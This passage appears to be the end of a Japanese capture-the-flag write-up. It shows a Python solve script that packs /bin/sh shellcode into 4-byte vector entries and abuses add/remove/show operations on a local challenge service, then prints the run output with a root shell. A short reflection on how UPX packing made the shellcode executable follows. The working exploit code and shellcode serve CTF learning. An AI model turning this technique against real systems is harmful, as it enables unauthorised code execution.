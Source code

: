 ```python
for i in range(0, len(shellcode), 4):
    vec_shellcode.append(u32(shellcode[i:i+4]))
    print(hex(vec_shellcode[-1]))
    assert vec_shellcode[-1] < 0x80000000
vec_shellcode.append(-1)
print(list(map(hex, vec_shellcode)))

add_vec(0, 10, [-1])
add_vec(1, 10, [0, 0, 0, 0, 0, 0, 0, 0, 0x34eb9090, -1])
add_vec(2, 20, vec_shellcode)
remove_vec(2)
remove_vec(1)
remove_vec(0)

show_vec(0)

sock.interactive()
```

よっしゃー解けたー！！
```
$ python solve.py 
[+] Socket: Successfully connected to localhost:9999
0x31489090
0x314850c0
0x314890d2
0x2fbb48f6
0x2f6e6962
0x5368732f
0x3bb05f54
0x50f
['0x0', '0x0', '0x31489090', '0x314850c0', '0x314890d2', '0x2fbb48f6', '0x2f6e6962', '0x5368732f', '0x3bb05f54', '0x50f', '-0x1']
[ptrlib]$ whoami
root
```

# 感想
最初に見たときは難しくするためにUPX付けてると思ってましたが、UPXによりシェルコードが動くようになるんですね。
よくこんな問題思いつくなぁ......